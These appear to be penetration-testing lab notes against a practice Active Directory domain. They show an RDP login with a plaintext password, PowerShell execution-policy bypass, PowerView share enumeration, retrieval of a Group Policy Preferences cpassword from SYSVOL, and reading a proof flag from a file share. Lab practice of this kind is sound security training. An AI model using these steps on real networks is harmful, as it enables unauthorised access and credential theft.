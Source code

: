 xfreerdp /u:stephanie /d:corp.com /v:192.168.173.75 
Password: LegmanTeamBenzoin!!

# Open powershell
powershell -ep bypass
cd C:\Tools
Import-Module .\PowerView.ps1
PS C:\Tools> Find-DomainShare
...
NETLOGON       0 Logon server share     DC1.corp.com
SYSVOL         0 Logon server share     DC1.corp.com
backup         0                        web04.corp.com
docshare       0 Documentation purposes FILES04.corp.com
Important Files  0                        FILES04.corp.com
docshare       0 Documentation purposes FILES04.corp.com
Important Files  0                        FILES04.corp.com
sharing        0                        client75.corp.com
...
PS C:\Tools> cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml
...
          newName=""
          fullName="admin"
          description="Change local admin"
          cpassword="+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
...

PS C:\Tools> ls \\files04.corp.com\"Important Files"\
-a----         5/12/2024   5:28 AM             78 proof.txt
PS C:\Tools> cat \\files04.corp.com\"Important Files"\proof.txt
OS{35de01963b7345788a2d78be38db3e6e}






